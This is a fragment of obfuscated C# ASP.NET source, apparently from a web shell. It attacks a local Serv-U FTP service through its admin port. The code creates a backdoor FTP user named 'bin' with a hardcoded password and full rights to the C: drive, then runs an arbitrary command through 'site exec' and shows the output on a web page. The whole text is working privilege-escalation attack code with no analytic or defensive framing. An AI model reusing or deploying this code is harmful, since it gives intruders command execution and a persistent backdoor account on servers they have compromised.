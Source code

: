 string iVDT="-SETUSERSETUP\r\n-IP=0.0.0.0\r\n-PortNo=52521\r\n-User=bin\r\n-Password=binftp\r\n-HomeDir=c:\\\r\n-LoginMesFile=\r\n-Disable=0\r\n-RelPaths=1\r\n-NeedSecure=0\r\n-HideHidden=0\r\n-AlwaysAllowLogin=0\r\n-ChangePassword=0\r\n-QuotaEnable=0\r\n-MaxUsersLoginPerIP=-1\r\n-SpeedLimitUp=0\r\n-SpeedLimitDown=0\r\n-MaxNrUsers=-1\r\n-IdleTimeOut=600\r\n-SessionTimeOut=-1\r\n-Expire=0\r\n-RatioDown=1\r\n-RatiosCredit=0\r\n-QuotaCurrent=0\r\n-QuotaMaximum=0\r\n-Maintenance=System\r\n-PasswordType=Regular\r\n-Ratios=NoneRN\r\n Access=c:\\|RWAMELCDP\r\n";
string zexn="QUIT\r\n";
UHlA.Visible=true;
try
{
tcp.Connect("127.0.0.1",port);
tcp.ReceiveBufferSize=1024;
NS=tcp.GetStream();
Rev(NS);
ZJiM(NS,CRtK);
Rev(NS);
ZJiM(NS,jnNG);
Rev(NS);
ZJiM(NS,site);
Rev(NS);
ZJiM(NS,mtoJb);
Rev(NS);
ZJiM(NS,sutI);
Rev(NS);
ZJiM(NS,iVDT);
Rev(NS);
Bin_Td_Res.InnerHtml+="&lt;font color=\"green\"&gt;&lt;b&gt;Exec Cmd.................\r\n&lt;/b&gt;&lt;/font&gt;";
zvxm.Connect(Request.ServerVariables["LOCAL_ADDR"],52521);
NS1=zvxm.GetStream();
Rev(NS1);
ZJiM(NS1,"user bin\r\n");
Rev(NS1);
ZJiM(NS1,"pass binftp\r\n");
Rev(NS1);
ZJiM(NS1,"site exec "+cmd+"\r\n");
Rev(NS1);
ZJiM(NS1,"quit\r\n");
Rev(NS1);
zvxm.Close();
ZJiM(NS,mtoJb);
Rev(NS);
tcp.Close();
}
catch(Exception error)
{
xseuB(error.Message);
}
}
protected void Rev(NetworkStream instream)
{
string FTBtf=string.Empty;
if(instream.CanRead)
{
byte[] uPZ=new byte[1024];
do
{
System.Threading.Thread.Sleep(50);
int len=instream.Read(uPZ,0,uPZ.Length);
FTBtf+=Encoding.Default.GetString(uPZ,0,len);
}
while(instream.DataAvailable);
}
Bin_Td_Res.InnerHtml+="&lt;font color=red&gt;"+FTBtf.Replace("&#92;&#48;","")+"&lt;/font&gt;";